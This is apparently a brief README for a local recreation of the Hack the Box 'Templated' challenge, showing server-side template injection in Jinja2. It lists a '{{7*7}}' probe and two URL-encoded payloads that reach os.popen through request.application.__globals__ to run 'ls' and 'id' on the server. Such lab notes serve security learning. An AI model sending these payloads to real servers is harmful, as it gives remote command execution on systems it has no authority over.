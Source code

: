 # Taking advanatage of SSTI
Recreated the Templated challenge in Hack the Box

## Payload

http://localhost:5000/{{ 7*7 }}

http://localhost:5000/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('ls').read()%7D%7D

http://localhost:5000/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('id').read()%7D%7D

### Refereence:
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
